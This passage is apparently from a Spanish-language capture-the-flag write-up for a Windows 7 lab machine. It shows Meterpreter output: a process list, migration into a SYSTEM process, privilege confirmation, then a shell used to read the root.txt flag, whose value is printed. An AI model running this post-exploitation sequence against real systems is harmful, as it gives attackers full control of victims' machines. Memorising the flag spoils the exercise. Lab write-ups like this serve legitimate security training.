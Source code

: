  2340  772   WmiPrvSE.exe       x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\wbem\WmiPrv
                                                                             SE.exe
 2440  1804  powershell.exe     x86   0        alfred\bruce                  C:\Windows\SysWOW64\WindowsPowe
                                                                             rShell\v1.0\powershell.exe
 2664  524   conhost.exe        x64   0        alfred\bruce                  C:\Windows\System32\conhost.exe
 2720  668   SearchIndexer.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\SearchIndex
                                                                             er.exe
 2980  668   TrustedInstaller.  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\servicing\TrustedIns
             exe                                                             taller.exe
 3036  668   sppsvc.exe         x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\sppsvc.exe
 3064  2288  powershell.exe     x86   0        alfred\bruce                  C:\Windows\SysWOW64\WindowsPowe
                                                                             rShell\v1.0\powershell.exe

meterpreter > migrate 668
[*] Migrating from 468 to 668...
[*] Migration completed successfully.
meterpreter > sysinfo
Computer        : ALFRED
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > guid
[+] Session GUID: 75f4399d-ba28-41ef-96bd-bca59d2c3d40
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM




BUSCAMOS LA BANDERA ROOT.TXT Y LUEGO NOS PASAMOS A SHELL COMUN PARA PODER LEERLA y SE TENZO DE NUEVO:





meterpreter > search -f root.txt
Found 1 result...
=================

Path                                 Size (bytes)  Modified (UTC)
----                                 ------------  --------------
c:\Windows\System32\config\root.txt  70            2019-10-26 11:36:00 +0000


meterpreter > shell
Process 2876 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>type C:\Windows\System32\config\root.txt
type C:\Windows\System32\config\root.txt
dff0f748678f280250f25a45b8046b4a


</code></pre>
